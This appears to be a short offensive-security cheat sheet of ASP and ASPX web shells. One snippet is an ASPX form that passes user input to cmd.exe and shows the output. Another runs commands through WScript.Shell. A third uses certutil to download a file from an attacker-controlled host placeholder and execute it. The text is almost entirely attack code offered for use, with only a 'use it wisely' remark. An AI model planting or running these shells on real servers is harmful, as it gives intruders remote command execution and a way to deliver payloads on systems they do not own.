 # ASP

Not much really to explain here. I created some process objects (Process Object) and passed the contents back to the user. Use it wisely.

```asp
<%@ Import Namespace="System" %>
<%@ Import Namespace="System.Diagnostics" %>
<script language="C#" runat="server">
private void doit(object sender, EventArgs e)
{
try {
System.Diagnostics.Process p = new Process();
p.StartInfo.CreateNoWindow = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.FileName = "%systemroot%\\system32\\cmd.exe";
p.StartInfo.Arguments = "/c " + txtcmd.text;
p.Start();
string output = p.StandardOutput.ReadToEnd();
message.text = output.text;
}
catch (Win32Exception e)
{
if(e.NativeErrorCode == ERROR_FILE_NOT_FOUND)
{
message.text = e.Message;
} 
else if (e.NativeErrorCode == ERROR_ACCESS_DENIED)
{
message.text = "Access DENIED!";
}
}
}</script>
<form ID="Form1" runat=server>
Command: <asp:TextBox id=txtcmd Runat=server />
<asp:Button Text="Submit" OnClick="doit" Runat=server />
<asp:Label id=message ForeColor="#ff0000" Runat=server />
</form>
</body>
</html>
```

Need to put in the command you want executed in `rs.Exec("whoami")`

```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

We can use certutil or other to download files and then execute them

```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("certutil -urlcache -split -f http://<LHOST>/<file> C:\users\public\<file> & cmd /c C:\users\public\<file>")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```